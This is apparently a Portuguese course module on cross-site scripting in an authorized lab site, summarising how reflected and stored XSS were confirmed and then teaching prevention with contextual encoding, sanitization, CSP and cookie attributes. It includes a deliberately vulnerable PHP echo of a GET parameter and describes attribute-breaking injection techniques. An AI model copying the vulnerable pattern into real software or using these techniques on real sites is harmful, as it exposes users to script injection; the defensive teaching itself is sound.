Em sistemas autorizados, a análise começa pelo caminho dos dados, não por uma coleção de strings. Um marcador alfanumérico único permite localizar reflexões sem introduzir comportamento ativo. Depois, a estrutura ao redor do marcador revela quais delimitadores e regras do parser importam. Apenas então um efeito inofensivo pode comprovar execução.
- Mapear entradas reais. Ler formulários, nomes dos campos, action, method, campos ocultos e parâmetros existentes. News expôs busca e page; Contact expôs name, email, company e message.
- Entender o transporte. Em GET, examinar a consulta da URL. Em POST, conferir o corpo e o Content-Type. URL encoding é transporte, não escape HTML.
- Localizar a saída. Procurar o marcador na resposta recebida e verificar todas as ocorrências, não só a primeira. Na News, ele apareceu no value e em dois elementos strong.
- Classificar cada contexto. Texto entre tags, atributo entre aspas, URL e conteúdo de script exigem tratamentos diferentes. Anotar delimitadores e elementos adjacentes.
- Verificar recuperação posterior. Para conteúdo armazenado, abrir a visualização sem reenviar a entrada. Em Contact, uma nova visita após apagar cookies recuperou o marcador.
- Confirmar interpretação. Registrar um efeito controlado: chamada de função, mensagem nova no Console ou alteração de propriedade. Relacionar o efeito à entrada e à navegação corretas.
- Documentar limites. Distinguir observação do navegador, indicação da interface e implementação não inspecionada. Corrigir a saída e repetir a mesma verificação para avaliar a correção.
6.2 Ferramentas do navegador
| Ferramenta | Pergunta que responde | Relação com a FatecCorp |
|---|---|---|
| Network | Qual método, URL, corpo, resposta e política foram recebidos? | O envio da busca é GET; Contact é POST. Examinar Payload/Form Data e Response, sem copiar cookies ou tokens para relatórios. |
| View Source / código-fonte | O que veio no documento HTML antes das alterações feitas por scripts? | Localiza value e conteúdo de strong. Em respostas POST, preferir também Response em Network para evitar confundir uma nova navegação com a resposta original. |
| Elements | Como o parser construiu a árvore e quais atributos estão ativos agora? | Confirma onfocus e autofocus criados no input busca; mostra o script recuperado no div do mural. |
| Console | Houve efeito de execução, erro de sintaxe ou bloqueio por política? | Mostrou XSS executado e Payload persistente executado. Filtrar mensagens e distinguir registros anteriores é essencial. |
Elements mostra o estado atual, que pode ter sido corrigido pelo parser ou modificado por código; não é uma cópia byte a byte da resposta. Um efeito causado por um comando digitado manualmente no Console também não comprova que o servidor refletiu ou armazenou um payload. A origem da execução deve ser a entrada examinada.
6.3 Recebido, refletido, armazenado e executado
| Estado | Evidência suficiente para esse estado | O que ainda não prova |
|---|---|---|
| Recebido | A entrada consta da requisição e há evidência de processamento correspondente. | Que ela será exibida ou interpretada como código. |
| Refletido | A entrada reaparece na resposta da requisição. | Que a saída seja executável; pode estar corretamente codificada. |
| Armazenado | O valor é recuperado depois, sem ser reenviado na requisição atual. | Qual tecnologia o guarda, nem se há execução. |
| Executado | Um efeito atribuível ao código injetado foi observado no navegador. | Qualquer consequência adicional, como acesso administrativo ou coleta de sessões. |
6.4 Registro consolidado da inspeção
| Ponto analisado | Resultado e alcance |
|---|---|
| News: formulário | GET index.php, page=pages/news.php, busca. Confirmado por HTML e navegador. |
| News: reflexão | Marcador em value e dois strong; script e eventos foram interpretados em contextos ativos. |
| News: payloads 1–9 | Chamadas instrumentadas de alert, Console, título e estilo confirmados conforme cada exemplo. |
| News: atributo | Quebra de value, criação de onfocus/autofocus e chamada correspondente confirmadas. |
| Contact: envio | POST na própria rota; mensagem fictícia apareceu no mural. Banner de confirmação específico não registrado. |
| Contact: persistência | message reapareceu e o Console executou em nova navegação após apagar cookies. |
| Contact: limites | Outros cinco payloads armazenados, painel restrito, banco e demais campos não foram testados quanto a execução. |
| Cookies e receptor | Sem coleta real, sem envio de document.cookie e sem teste do receptor. Exemplos desta apostila são conceituais. |
A inspeção foi feita com Chromium automatizado por Selenium. A tentativa inicial de usar Playwright não funcionou por ausência de seu driver; isso não impediu a análise no navegador disponível. As capturas incluídas são reais, recortadas para mostrar apenas conteúdo didático. Não foram utilizados o reset global do mural nem credenciais administrativas.
Prevenção e correção de XSS
7.1 Codificação de saída: preservar o significado de dado
Codificar a saída significa transformar caracteres que têm função sintática naquele contexto em representações de dados. Para texto HTML e valores de atributos comuns delimitados por aspas, PHP oferece htmlspecialchars. O tratamento deve ocorrer no momento da apresentação; validar a entrada continua útil para regras de negócio, mas não substitui a proteção da saída.
htmlspecialchars(
$valor,
ENT_QUOTES | ENT_SUBSTITUTE,
'UTF-8'
);ENT_QUOTES inclui aspas simples e duplas no tratamento. ENT_SUBSTITUTE substitui sequências inválidas de caracteres, evitando falhas de representação; não é uma função de validação de negócio. UTF-8 declara a codificação esperada, que deve estar alinhada à resposta. A função devolve uma string: é necessário usar esse retorno na saída.
| Caractere de entrada | Representação HTML típica | Resultado visual |
|---|---|---|
& | & | Um & literal. |
< | < | Um < literal, não início de tag. |
> | > | Um > literal. |
" | " | Uma aspa dupla dentro do dado. |
' | ' | Uma aspa simples; a entidade concreta depende das opções de tipo de documento. |
Codificar duas vezes pode produzir texto como < na interface. Por isso a aplicação deve ter uma política consistente de armazenamento e apresentação: em geral, preservar dados como dados e codificar para cada destino. Não remover a proteção para “consertar” entidades exibidas sem entender onde ocorreu a dupla codificação. Referência: manual oficial de htmlspecialchars.
7.2 Código vulnerável e versão corrigida
<?php
echo $_GET['nome'];
?>A versão vulnerável escreve diretamente um parâmetro controlável na resposta. Se estiver em texto HTML, a entrada pode criar marcação; se o parâmetro faltar, também há um problema de robustez. O nome nome é ilustrativo e não corresponde a um parâmetro observado na News.
<?php
echo htmlspecialchars(
$_GET['nome'] ?? '',
ENT_QUOTES | ENT_SUBSTITUTE,
'UTF-8'
);
?>O operador ?? fornece uma string vazia quando o parâmetro está ausente ou é nulo. A função transforma os caracteres relevantes antes do echo; a entrada passa a ser mostrada como texto. Este exemplo pressupõe valor escalar do tipo string: uma aplicação robusta também deve rejeitar formatos inesperados, como um parâmetro recebido como array. A correção não é genérica para inserir conteúdo em JavaScript ou em atributos de evento.
7.3 Aplicação da correção aos contextos observados
<?php
$busca = $_GET['busca'] ?? '';
if (!is_string($busca)) {
$busca = ''; // Política ilustrativa para formato inesperado.
}
$buscaHtml = htmlspecialchars(
$busca, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8'
);
?>
<input type="text" name="busca" value="<?= $buscaHtml ?>">
<strong><?= $buscaHtml ?></strong>A mesma entrada da News é exibida em texto HTML e em um atributo comum com aspas. Nesses dois pontos, essa codificação é adequada. É necessário aplicá-la a todas as ocorrências, inclusive ao segundo strong identificado. O template mantém fixos o nome do elemento e o nome do atributo; não permite que o usuário escolha um handler.
Para Contact, o conteúdo recuperado de message deve receber proteção equivalente antes de aparecer no div se o produto pretende aceitar apenas texto. A regra também vale para nomes e empresas exibidos, mesmo que esses campos não tenham sido testados com payload. O formato de armazenamento e os nomes internos de variáveis PHP não foram inspecionados, portanto não se apresenta um patch fictício do servidor.
| Contexto de saída | Tratamento adequado | Armadilha comum |
|---|---|---|
| Texto HTML | Escape HTML, como htmlspecialchars, ou API textContent quando houver manipulação legítima de texto no cliente. | Concatenar a entrada como HTML. |
| Atributo HTML comum | Nome fixo e seguro, valor entre aspas e escape de aspas e caracteres HTML. | Presumir que o escape torna seguro um atributo onfocus: ele contém código. |
| URL em href ou src | Validar esquema e destino permitidos, codificar componentes da URL e aplicar escape HTML ao inserir em atributo. | Confundir encodeURIComponent com validação; uma URL javascript: exige rejeição, não só escape. |
| Strings JavaScript | Preferir separar dados do código e usar serialização JSON apropriada ao canal de entrega. | Usar htmlspecialchars como escape JavaScript ou concatenar dados em script inline. Até dados serializados exigem cuidado com o fechamento do elemento script. |
| HTML formatado | Sanitizador mantido, com lista de elementos, atributos e protocolos permitidos. | Usar regex, remover apenas script ou confiar em conteúdo já salvo. |
Comentários HTML, nomes de tags, nomes de atributos e atributos de evento são destinos especialmente inadequados para dados arbitrários. A opção mais segura é reorganizar a construção da interface para manter dados em posições de texto. Escape automático de templates ajuda, mas precisa corresponder ao contexto real; marcações “safe” ou equivalentes podem desativá-lo.
7.4 Sanitização quando o produto aceita formatação
Codificação de saída faz a marcação aparecer como texto. Sanitização analisa HTML e conserva somente a estrutura autorizada — por exemplo, parágrafos e negrito — retirando elementos, atributos e protocolos perigosos. A escolha depende do requisito: uma mensagem simples não precisa aceitar HTML; um editor rico pode precisar de um subconjunto seguro.
Um sanitizador confiável deve compreender o parser e as regras das URLs, acompanhar atualizações de segurança e ser configurado para o caso de uso. Uma biblioteca mantida, como DOMPurify no ambiente apropriado, é uma referência possível, não uma dependência deste tutorial. Alterar o HTML depois da sanitização pode reintroduzir risco. A aplicação também precisa considerar o conteúdo antigo quando modifica a política.
7.5 Content Security Policy como defesa adicional
Content-Security-Policy: default-src 'self'; script-src 'self'; img-src 'self'; object-src 'none'; base-uri 'self'A política exemplifica scripts e imagens limitados à mesma origem, bloqueio de objetos e restrição de base URI. Sem permissões adicionais, scripts inline e handlers dos exemplos tendem a ser bloqueados. Para scripts inline legítimos, nonces imprevisíveis por resposta ou hashes podem autorizar trechos específicos; adicionar indiscriminadamente unsafe-inline enfraquece essa proteção.
Não basta permitir “qualquer arquivo do próprio site” se o site também hospeda conteúdo não confiável executável. CSP deve ser planejada, observada e implantada considerando os recursos necessários. Content-Security-Policy-Report-Only permite avaliar violações sem bloquear, mas não equivale à política aplicada. A configuração de cabeçalho pertence à aplicação ou ao servidor, não ao texto de uma página Moodle.
Uma CSP que restrinja img-src pode bloquear o receptor do exemplo mesmo se houver execução por outra via. Isso é contenção de um caminho de saída, não correção da concatenação insegura. Consulte a documentação de CSP da MDN.
7.6 Sessões e desenvolvimento seguro
Cookies de sessão devem combinar atributos apropriados, transporte HTTPS e gerenciamento de sessão: expiração, renovação quando necessário e invalidação no servidor. HttpOnly reduz leitura de identificadores; Secure protege seu envio no transporte; SameSite limita certos contextos entre sites. Nenhum desses atributos substitui a proteção dos pontos de saída.
- Separar dados de código: usar templates com escape adequado e APIs de texto; evitar montagem de HTML por concatenação.
- Manter contextos previsíveis: fixar nomes de elementos e atributos, usar aspas e reduzir handlers inline.
- Validar contratos: tipo, comprimento e formato devem refletir as regras do produto, sem serem tratados como defesa única contra injeção.
- Tratar cada visualização: páginas públicas, relatórios e telas administrativas precisam preservar a mesma fronteira de confiança.
- Combinar defesas: escape contextual, sanitização quando necessária, CSP, sessões protegidas e bibliotecas atualizadas.
- Verificar a correção: o mesmo marcador deve aparecer como dado; os efeitos de execução anteriores devem desaparecer sem destruir o conteúdo legítimo.
A OWASP XSS Prevention Cheat Sheet organiza as recomendações por contexto. Bloquear uma lista de palavras ou confiar que um campo “não deveria receber HTML” deixa a decisão de interpretação nas mãos do navegador.
Comparação geral
| Característica | Reflected XSS | Stored XSS |
|---|---|---|
| Origem | Entrada refletida da requisição atual. | Conteúdo persistido e recuperado. |
| Armazenamento | Não é necessário para a execução. | Existe persistência entre envio e recuperação. |
| Execução | Navegador que interpreta a resposta vulnerável. | Navegador que visualiza o conteúdo recuperado. |
| Exemplo no laboratório | News: parâmetro busca. | Contact: message no mural público. |
| Momento | Ao receber a resposta que reflete a entrada. | Ao exibir o conteúdo armazenado; pode incluir a resposta ao envio. |
| Alcance | Depende da exposição à entrada e à resposta. | Pode atingir quem visualizar o conteúdo vulnerável. |
| Contextos vulneráveis | Texto HTML e atributo value confirmados na News. | Conteúdo de div confirmado no mural. |
| Impactos | Dependem de contexto, dados, privilégios e defesas. | Dependem dos mesmos fatores, além da exposição das visualizações. |
| Proteção | Tratamento contextual em cada ponto de saída. | Tratamento contextual em cada recuperação e sanitização se HTML for permitido. |
Nenhuma categoria é sempre mais perigosa que a outra. Uma reflexão em uma área sensível pode causar mais impacto que uma mensagem persistente pouco acessada; o inverso também é possível. O que muda é o caminho pelo qual a entrada chega à visualização. O problema técnico comum é atribuir significado de código a dados não confiáveis.
Referências técnicas
Links oficiais consultados em 27/10/2026. As referências aprofundam os conceitos; as confirmações específicas da FatecCorp vêm da inspeção local descrita nos módulos 3, 4 e 6.
- OWASP — Cross Site Scripting Prevention Cheat Sheet — Codificação contextual, sanitização e defesa em profundidade.
- OWASP — Web Security Testing Guide — Metodologia de identificação e registro de evidências em testes autorizados.
- PortSwigger Web Security Academy — Cross-site scripting — Conceitos e distinção entre formas de entrega de payloads.
- MDN Web Docs — JavaScript — Referência de linguagem para compreender chamadas, valores e expressões.
- MDN Web Docs — Using HTTP cookies — Funcionamento de cookies e atributos de segurança.
- MITRE — CWE-79 — Classificação da neutralização inadequada de dados na geração de páginas.
- PHP — htmlspecialchars — Semântica da função, parâmetros e opções de codificação.
- MDN — Content Security Policy — Diretivas e limites de execução e carregamento de recursos.
- MDN — Mixed content — Restrições a recursos HTTP em páginas HTTPS.